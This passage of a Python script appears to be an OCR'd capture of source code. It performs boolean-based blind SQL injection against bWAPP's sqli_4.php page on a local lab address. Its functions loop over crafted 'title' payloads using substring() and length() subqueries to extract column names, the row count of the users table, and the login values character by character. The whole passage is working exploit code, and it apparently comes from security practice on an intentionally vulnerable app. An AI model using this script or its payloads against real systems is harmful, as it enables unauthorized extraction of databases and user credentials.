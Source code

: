 ```python
                for k in stringlist:
                    url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or substring((select column_name from information_schema.columns where table_schema='bwapp' and table_name='users' limit {a},1),{j},1)='{k}'%23&action=search"
                    res=requests.get(url,cookies=cookies)
                    if "The movie exists in our database!" in res.text:
                        ch+=k
                        break
            str_arr.append(ch)
            ch=''
                    #print(url)
            a+=1
        break
    print(f"해당 선택하신 테이블 내의 존재하는 컬럼들은{str_arr}입니다.")    
def data():
    cnt=0
    while 1:
        cnt+=1
        url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or (select count(id) from bWAPP.users)={cnt}%23&action=search"
        res=requests.get(url,cookies=cookies)
        if "The movie exists in our database!" in res.text:
            print(f"현재 테이블의 컬럼 내의 존재하는 데이터들은{cnt}가지 입니다.")
            break
    len_arr=[]
    str_arr=[]
    ch=''
    stringlist=string.ascii_letters+string.digits+string.punctuation
    for i in range(cnt):
        length=1
        while 1:
            url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or length((select login from bWAPP.users limit {i},1))={length}%23&action=search"
            res=requests.get(url,cookies=cookies)
            if "The movie exists in our database!" in res.text:
                len_arr.append(length)
                print(f'{i+1} 번째 데이터 길이는{len_arr}입니다.')
                print(len_arr)
                break
            else:
                length+=1
    while 1:
        a=0
        for i in len_arr:
            for j in range(1,i+1):
                for k in stringlist:
                    url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or substring((select login from bWAPP.users limit {a},1),{j},1)='{k}'%23&action=search"
                    res=requests.get(url,cookies=cookies)
                    if "The movie exists in our database!" in res.text:
                        ch+=k
                        break
            str_arr.append(ch)
            ch=''
                    #print(url)
            a+=1
        break
    print(f"해당 선택하신 컬럼 내의 존재하는 데이터는{str_arr}입니다.")

if __name__ =="__main__":
    db_name()
    table_count=table_count()
    table(table_count)
```